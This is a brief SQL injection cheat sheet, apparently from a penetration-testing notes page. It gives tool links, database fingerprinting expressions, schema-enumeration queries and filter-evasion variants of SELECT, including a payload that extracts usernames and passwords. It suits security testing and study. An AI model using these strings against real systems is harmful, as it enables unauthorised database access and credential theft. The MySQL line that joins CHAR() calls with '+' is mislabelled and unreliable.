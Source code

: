 ## Tools 

- NoSQLMap - <https://github.com/codingo/NoSQLMap>
- SQLMap - <http://sqlmap.org/>

## Quick References

- <http://pentestmonkey.net/category/cheat-sheet/sql-injection>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection>
-  The following examples show how the string services could be constructed on the common types of database:
   - Oracle: ‘serv’||’ices’
   - MS-SQL: ‘serv’+’ices’
   - MySQL:‘serv’ ‘ices’(notethespace)
- If you are injecting into numeric data, the following attack strings can be used to fingerprint the database. Each of these items evaluates to 0 on the target database and generates an error on the other databases:
  - Oracle: BITAND(1,1)-BITAND(1,1)
  - MS-SQL: @@PACK_RECEIVED-@@PACK_RECEIVED
  - MySQL: CONNECTION_ID()-CONNECTION_ID()
- Join
  - Oracle: SELECT table_name||’:’||column_name FROM all_tab_columns
  - MS-SQL: SELECT table_name+’:’+column_name from information_ schema.columns
  - MySQL: SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
- Block
  - select ename, sal from emp where ename=’marcus’:
    - Oracle: SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)
    - MySQL: SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)+CHAR(114)+CHAR(99)+CHAR(117)+CHAR(115)
  - SELECT
    - SeLeCt
    - %00SELECT
    - SELSELECTECT
    - %53%45%4c%45%43%54
    - %2553%2545%254c%2545%2543%2554
  - Spaces
    - SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
    - SEL/*foo*/ECT username,password FR/*foo*/OM users

